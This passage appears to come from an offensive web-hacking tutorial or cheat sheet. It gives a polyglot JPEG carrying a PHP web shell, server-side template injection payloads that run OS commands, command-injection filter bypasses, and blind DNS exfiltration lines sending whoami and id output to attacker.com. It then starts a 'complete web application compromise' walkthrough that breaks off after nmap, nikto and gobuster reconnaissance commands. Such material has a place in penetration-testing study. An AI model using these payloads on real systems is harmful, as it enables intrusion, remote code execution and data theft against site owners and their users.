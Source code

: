 ### Advanced File Upload Bypasses

#### Polyglot File Creation
```bash
# Create file that's both valid image and PHP
echo -ne "\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xFF\xDB\x00C\x00" > polyglot.jpg
echo "<?php system(\$_GET['cmd']); ?>" >> polyglot.jpg
```

#### Server-Side Template Injection (SSTI)
```python
# Template injection payloads
{{7*7}}  # Jinja2
${7*7}   # Freemarker
#{7*7}   # JSF

# Command execution via SSTI
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

### Advanced Command Injection

#### Environment Variable Exploitation
```bash
# Using environment variables for bypass
$(echo $PATH | cut -d: -f1)/whoami
${PATH:0:8}/whoami

# Process substitution
cat <(whoami)
```

#### Blind Command Injection with DNS
```bash
# DNS exfiltration
; nslookup $(whoami).attacker.com
; dig $(id | base64).attacker.com
```

---

## Practical Examples {#examples}

### Example 1: Complete Web Application Compromise

**Target:** Blog application with admin panel

**Step 1: Reconnaissance**
```bash
# Initial scan
nmap -sV -sC target_ip

# Web technology enumeration
whatweb http://target_ip
nikto -h http://target_ip

# Directory enumeration
gobuster dir -u http://target_ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

